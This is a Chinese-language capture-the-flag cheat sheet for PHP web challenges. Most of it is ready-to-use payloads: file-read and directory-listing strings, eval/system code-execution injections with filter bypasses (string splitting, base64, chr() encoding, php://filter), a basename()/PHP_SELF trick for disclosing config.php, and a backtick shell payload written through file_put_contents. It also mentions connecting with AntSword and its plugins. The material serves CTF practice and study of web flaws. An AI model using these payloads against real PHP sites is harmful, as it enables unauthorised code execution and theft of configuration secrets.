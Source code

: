 u在线php运行：<https://www.jyshare.com/compile/1/>



## **php常见特殊函数和绕过**
**文件包含函数 绕过一些禁用函数**
如果是$_POST，直接蚁剑连，用插件绕过
```
c=highlight_file("config.php");        //文件内容包含高亮。
c=show_source('flag.php');
c=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
c=print_r(scandir(dirname('__FILE__')));
// ( [0] => 。 [1] => .. [2] => flag.php [3] => index.php ) 
c=var_dump(file('flag.php'));
c=readfile('flag.php');
c=print_r(file('flag.php'));
c=show_source(file(''flag.php));
c=echo file_get_contents('flag.php');
c=include('/flag.txt');
c=require('/flag.txt');
c=require_once('/flag.txt');

c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36.txt")') as $row){echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);

```
查目录
```
c=var_dump(scandir('/'));

c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}//glob的作用是规定后面的匹配格式，查找匹配的文件路径模式

c=$a=scandir("/");foreach($a as $key=>$value){echo $key."=>".$value;}

c=var_export(scandir('/'));exit(); //停掉后面的限制函数如ob_end_clean()会清除缓冲不会输出内容。
c=include('/flag.txt');die();
```
```
print_r(file_get_contents(/flagg')); //打印获取文件的内容
var_dump(scandir(/);  //查看根目录
var_dump(scandir(chr(47))); //查看根目录

var_dump(file_get_contents(/flagg')); //打印获取文件的内容。file_get_content()也可以读取php://filter伪协议。
var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)));  //绕过打印flag
```


^
**代码执行函数**
eval('system('cat /flag'); ');         //会将字符串当作PHP代码执行，注意分号。

eval('system('cat /flag')?> ');    // 分号可以用?>替换。 且后面代码也会正常执行。

/?c=eval($_GET[a]);&a=system('cat flag.php');  //绕过eval有限制。
/?c=eval($_GET[a])?>&a=system('cat flag.php');  //绕过eval有限制。过滤了;
eval('eval($_GET[a])?>')  

/?c=include"$_GET[a]"?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了(
/?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了( 双引号"

eval("$x='sys';  $y='tem';  $z=$x.$y;  $z('cat config.php');" );         //绕过过滤。

eval('base64_decode("c3lzdGVt");$b=base64_decode("Y2F0IGNvbmZpZy5waHA=");$a($b);');        //base64编码绕过。

assert()可以将整个字符串参数当作php参数执行
而类似的eval()函数是执行合法的php代码，eval()里的引号必须是双引号，因为单引号不能解析字符串里的变量$str，且必须以分号结尾，函数调用除外。
```
<?php
echo eval(echo 1);
?>
不行，需改成下面：
<?php
echo eval("echo 1;");
?>
```

^
^

命令执行找flag文件：find / -name flag*
递归搜当前目录下内容：grep -r "flag{" .

php内的"\"在做代码执行的时候，会识别特殊字符串，绕过黑名单。
如\system

^
## **basename()场景漏洞**
源代码：
```
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}
if (isset($_GET['source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
}
```
我们要包含高亮config.php
`$_SERVER['PHP_SELF']`会获取我们当前的访问路径，并且PHP在根据URI解析到对应文件后会忽略掉URL中多余的部分，即若访问存在的index.php页面，如下两种UR均会访问到。
```
/index.php
/index.php/dosent_exist.php
```
`basename`可以理解为对传入的参数路径截取最后一段作为返回值，但是该函数发现最后一段为不可见字符时会退取上一层的目录，basename只能转换ASCII码内的字符。即：
```
$var1="/config.php/test"
basename($var1)	=> test
$var2="/config.php/%ff"
basename($var2)	=>	config.php
```
`$_SERVER['PHP_SELF']`提交index.php/config.php时，经过basename过滤后只剩下config.php，需要绕过的只有正则，basename只能转换ASCII码内的字符，通过超过ASCII码范围的字符进行绕过。

接下来就显然了，通过构造URI让其包含`config.php`这个文件名再让`basename`函数截取出来，之后通过请求参数`source`就能显示`config.php`的源码，也就能见到`flag`了。
```
/index.php/config.php/%ff?source
```


^
## **file_put_contents()场景写文件漏洞**
对于
```
if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        die('hacker!!!');
}
file_put_contents("index.php", $input)
```
可以传入绕过
```
<?=`ls\t/*`?>
<?=`cat\t/flllllll1112222222lag`?>
```